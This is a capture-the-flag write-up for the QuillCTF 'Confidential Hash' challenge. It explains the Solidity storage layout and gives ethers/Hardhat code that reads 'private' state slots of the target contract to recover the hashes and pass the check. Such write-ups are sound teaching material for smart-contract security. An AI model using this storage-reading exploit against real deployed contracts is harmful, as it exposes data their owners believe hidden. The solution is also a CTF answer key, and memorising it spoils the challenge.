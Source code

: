 # QuillCTF 3: Confidential Hash

**Objective of CTF:**

- Find the keccak256 hash of aliceHash and bobHash.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.7;

contract ConfidentialHash {
  string public firstUser = "ALICE";
  uint public alice_age = 24;
  bytes32 private ALICE_PRIVATE_KEY; // Super Secret Key
  bytes32 public ALICE_DATA = "QWxpY2UK";
  bytes32 private aliceHash = hash(ALICE_PRIVATE_KEY, ALICE_DATA);

  string public secondUser = "BOB";
  uint public bob_age = 21;
  bytes32 private BOB_PRIVATE_KEY; // Super Secret Key
  bytes32 public BOB_DATA = "Qm9iCg";
  bytes32 private bobHash = hash(BOB_PRIVATE_KEY, BOB_DATA);

  constructor() {}

  function hash(bytes32 key1, bytes32 key2) public pure returns (bytes32) {
    return keccak256(abi.encodePacked(key1, key2));
  }

  function checkthehash(bytes32 _hash) public view returns (bool) {
    require(_hash == hash(aliceHash, bobHash), "Hashes do not match.");
    return true;
  }
}
```

## The Attack

Although we might use the `private` keyword for storage variables sometimes, this does not mean they are really private. In fact, anyone can read them with no cost.

Using `ethers`, you can read the storage slots of any contract via `ethers.provider.getStorageAt(address, slot)`. The important point here would be to know how the storage layout works in Solidity.

The storage layout of a contract is greatly described in the following document: <https://docs.soliditylang.org/en/v0.8.17/internals/layout_in_storage.html>. There is quite a lot to know there, especially related to dynamically-sized variables such as strings and byte arrays. The most important thing to know is that EVM storage slots are 32-bytes each. Variables are allocated to this storage with respect to the order they appear in the source code. Multiple variables smaller than 32-bytes combined will be put in the same slot, although that does not happen in our target contract. Larger-than-32-byte values are also a different story, but we do not have any of those neither.

So, our target contract has variables that can all fit in 32-bytes. Since they are placed in the order of appearance, the storage slot to variable mapping will be as follows:

- `0x0` has `firstUser` string, which is a string that can fit in less than 32 bytes.
- `0x1` has 256-bit Alice age.
- `0x2` has the 32-byte Alice private key.
- `0x3` has the 32-byte Alice data.
- `0x4` has the 32-byte Alice hash.
- `0x5` has `secondUser` string, which is a string that can fit in less than 32 bytes.
- `0x6` has 256-bit Bob age.
- `0x7` has the 32-byte Bob private key.
- `0x8` has the 32-byte Bob data.
- `0x9` has the 32-byte Bob hash.

We are looking for the hash values, which are at `0x4` and `0x9`. We can fetch them as follows:

```typescript
// 0x4: alice hash
const aliceHash: string = await ethers.provider.getStorageAt(contract.address, ethers.utils.hexValue(4));

// 0x9: bob hash
const bobHash: string = await ethers.provider.getStorageAt(contract.address, ethers.utils.hexValue(9));
```

We will need to find the `keccak256(abi.encodePacked(aliceHash, bobHash))`, and we can do this easily in JS, thanks to `ethers`.

```typescript
const hash = ethers.utils.solidityKeccak256(['bytes32', 'bytes32'], [aliceHash, bobHash]);
```

That is all!

## Proof of Concept

The Hardhat test code to demonstrate this attack is given below. Contract types are generated via TypeChain.

```typescript
describe('QuillCTF 3: Confidential Hash', () => {
  let contract: ConfidentialHash;
  let owner: SignerWithAddress;

  before(async () => {
    [owner] = await ethers.getSigners();
    contract = await ethers.getContractFactory('ConfidentialHash', owner).then(f => f.deploy());
    await contract.deployed();
  });

  it('should find the private variables', async () => {
    const aliceHash: string = await ethers.provider.getStorageAt(contract.address, ethers.utils.hexValue(4));

    const bobHash: string = await ethers.provider.getStorageAt(contract.address, ethers.utils.hexValue(9));

    // construct the hash as done in the contract via ethers.utils.solidityKeccak256
    const hash = ethers.utils.solidityKeccak256(['bytes32', 'bytes32'], [aliceHash, bobHash]);

    expect(await contract.checkthehash(hash)).to.be.true;
  });
});
```
